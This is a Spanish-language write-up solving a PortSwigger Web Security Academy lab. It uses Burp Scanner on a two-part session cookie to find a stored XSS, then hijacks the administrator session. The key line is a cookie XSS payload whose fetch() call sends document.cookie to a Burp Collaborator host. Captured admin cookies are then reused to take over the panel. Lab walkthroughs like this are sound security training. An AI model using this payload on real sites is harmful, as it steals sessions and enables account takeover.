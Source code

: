 ```yaml
---
title: Essential Skills Lab 2
date: 2024-12-08 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Essential Skills
tags:
  - Essential Skills
  - Scanning non-standard data structures
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Scanning non-standard data structures

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` que es difícil de encontrar `manualmente`. Se encuentra en una `estructura de datos no estándar`. Para `resolver` el laboratorio, debemos usar la función `Scan selected insertion point` de `Burp Scanner` para identificar la `vulnerabilidad`, luego `explotarla` manualmente y eliminar al `usuario carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Essential-Skills-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/Essential-Skills-Lab-2/image_2.png)

`Recargamos` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Essential-Skills-Lab-2/image_3.png)

El `formato` de la `cookie` es bastante `extraño`

```
session=wiener:zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

Si la `estructura` de `datos` fuera `estándar`, es decir que tuviera `un solo campo` podríamos `marcar todo el dato` de forma `completa` de esta manera

```
session=zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

![](/assets/img/Essential-Skills-Lab-2/image_4.png)

Sin embargo, en este caso, parece que se trata de dos `estructuras de datos` diferentes. Por ello, no tendría sentido manejarlo de esta manera, ya que `Burp Suite` enviaría un único `payload` para toda la `estructura`. En estos casos, o cuando trabajamos con un `JSON`, lo mejor es `enviar` la `petición` al `Intruder`, establecer `puntos de inserción` (insertion points) en cada `dato` y escanear los valores de manera `independiente` y no como un `único bloque`. Cuando se abra la nueva `ventana` en `Burp Intruder`, debemos pulsar en `OK` y comenzará el `escaneo`

![](/assets/img/Essential-Skills-Lab-2/image_5.png)

Si nos vamos a `Dashboard` veremos que nos ha `detectado` un `XSS`, aunque ponga `audit finished` necesitaremos `esperar` un poco `más` de `tiempo` para que nos `muestre` lo que ha `encontrado`

![](/assets/img/Essential-Skills-Lab-2/image_6.png)

Este es el `payload` que vamos a usar ahora para `obtener` la `cookie`, debemos usar `Burpsuite Collaborator` para que nos mande ahí las `peticiones`

```
Cookie: session='"><svg/onload=fetch(`//ird4jrrnt2mjjytc1bdncj4v8mee24qt.oastify.com/${encodeURIComponent(document.cookie)}`)>:gzUjX1PEjSeUz0hi59YqWXwVpEiCHt9x
```

Para `encodear` el `payload` de la misma forma en la que está, debemos usar el `inspector` de `Burpsuite`, el cual se `encargará` de `encodearlo` de la misma forma en la que está el anterior

![](/assets/img/Essential-Skills-Lab-2/image_7.png)

Una vez `enviada` la `petición`, nos llega esto a `Burpsuite Collaborator`

![](/assets/img/Essential-Skills-Lab-2/image_8.png)

El `inspector` de `Burpsuite` lo `decodea` por nosotros y vemos que estas son las `cookies` del usuario `administrator`

![](/assets/img/Essential-Skills-Lab-2/image_9.png)

```
/session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD; secret=jPNSk5gKjLbTQaTMWbYl81pU2rTtXufm; session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD
```

Nos vamos al navegador y pulsamos `Ctrl + Shift + i` y vemos que tenemos varios `campos` de `cookies`

![](/assets/img/Essential-Skills-Lab-2/image_10.png)

`Sustituimos` los `campos` de `cookies` y pulsamos `F5` para `refrescar` la `web`

![](/assets/img/Essential-Skills-Lab-2/image_11.png)

Ya tenemos `acceso` al `panel` de `administrador` y podemos `eliminar` al usuario `carlos`

![](/assets/img/Essential-Skills-Lab-2/image_12.png)

Vemos que hay una parte llamada `View Logs`, aquí es donde se ha producido el `XSS` debido a que el usuario `administrator` se encontraba `revisándolo`

![](/assets/img/Essential-Skills-Lab-2/image_13.png)
